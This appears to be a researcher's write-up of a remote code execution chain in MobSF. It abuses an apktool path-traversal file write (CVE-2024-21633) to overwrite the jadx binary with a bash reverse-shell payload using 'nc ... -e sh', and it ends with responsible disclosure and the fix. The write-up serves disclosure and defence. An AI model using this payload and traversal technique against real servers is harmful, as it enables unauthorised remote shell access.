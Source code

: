 # MobSF Remote code execution (via CVE-2024-21633)

I have found an arbitrary file write in apktool and reported via [github security advisory](https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-2hqv-2xv4-5h5w). I was aware that many projects were relied upon or dependent to apktool but after the [publish of advisory](https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-2hqv-2xv4-5h5w) and [fix](https://github.com/iBotPeaches/Apktool/pull/3484) not many seem to be noticed or cared about it. I decided to check its impact and exploitability in some of the big dependants, I have then started with MobSF.

The vulnerability allows us to write anything at a relative path to "${decode target path}/res/", the biggest impact would be getting an RCE. But there is a catch, written file is not an executable. 

I had these 2 ideas in my mind before diving in:
- We might aim to overwrite shell init files like .bashrc/.zshrc etc. but this requires either "decode target path" to be under user folder  so we can target it like: "../../.bashrc"  or we need know (or bruteforce) user name to have a target like "../../../../username/.bashrc", a nice thing here is an application can have 0xFFFF (65536) different raw resource names because resource ids looks like 0x7F0B1234 (1 byte package identifier usually 0x7F, 1 byte type identifier (e.g raw, drawable), 2 bytes of resource identifier). In our case if we assume that MobSF runs in docker we already know the user name, MobSF. However, after overwriting file, we have to wait for a shell to be spawned, which is not guaranteed.
- Create a cronjob to run a malicious script, requires the application to have root privileges
  

But what if we're just lucky enough to have an app that changes permissions of a file to executable? And even more lucky to have it run afterwards? And it all needs to happen after execution of apktool. That's the exact situation with the MobSF. MobSF uses jadx as a part of its static analysis, it calls jadx via subprocess, but right before that it changes the permission of jadx to executable. 

Log excerpt where apktool, chmod and jadx are respectively called:
```
[INFO] 07/Jan/2024 20:44:16 - Getting AndroidManifest.xml from APK
[INFO] 07/Jan/2024 20:44:16 - Converting AXML to XML
[INFO] 07/Jan/2024 20:44:16 - executed command: /jdk-20.0.2/bin/java -jar -Djdk.util.zip.disableZip64ExtraFieldValidation=true /home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/apktool_2.9.1.jar --match-original --frame-path /tmp -f -s d /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/6cae29cb89b3aac3890c1d4d21fcc756.apk -o /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/apktool_out
.
.
.
[INFO] 07/Jan/2024 20:44:20 - Decompiling to Java with jadx
[INFO] 07/Jan/2024 20:44:20 - executed command: chmod +x /home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx 
[INFO] 07/Jan/2024 20:44:20 - executed command: /home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx -ds /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/java_source/ -q -r --show-bad-code /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/6cae29cb89b3aac3890c1d4d21fcc756.apk
```

We will use jadx as a target, but we need to have relative path of jadx to res folder. We can get that by using os.path.relpath() in python function. 

Our resource base folder is "/home/mobsf/.MobSF/uploads/680b420ade61b64ce7c024a2ed6bc94d/apktool_out/" 

We want to overwrite jadx binary at path: "/home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx"
```python
import os
jadx_path = "/home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx"
res_base_path = "/home/mobsf/.MobSF/uploads/680b420ade61b64ce7c024a2ed6bc94d/apktool_out/res"
os.path.relpath(jadx_path, res_base_path)
>>> '../../../../Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx'
```
Our payload will be in res/raw/jadx
```bash
#!/bin/bash
nc host.docker.internal 9001 -e sh
```
Resource name will be "../../../../Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx"
![resources](assets/resources.png)
Upload the apk and wait for the jadx to be executed, we'll get a shell on our nc listener.
![upload](assets/upload.png)
Bingo!
![reverse-shell](assets/reverse-shell.png)

I then have reported this to MobSF team via email, got a prompt reply and they have [fixed](https://github.com/MobSF/Mobile-Security-Framework-MobSF/commit/19c1b55c2c59596f2d43439926c9dc976cbeaec4) it by updating to newer apktool version, but behavior of making jadx executable and running it afterwards is still there. I would rather have set permission fixed in advance and kept the directory non-writable.

Follow for more! [@0x33c0unt](https://twitter.com/cybaqkebm)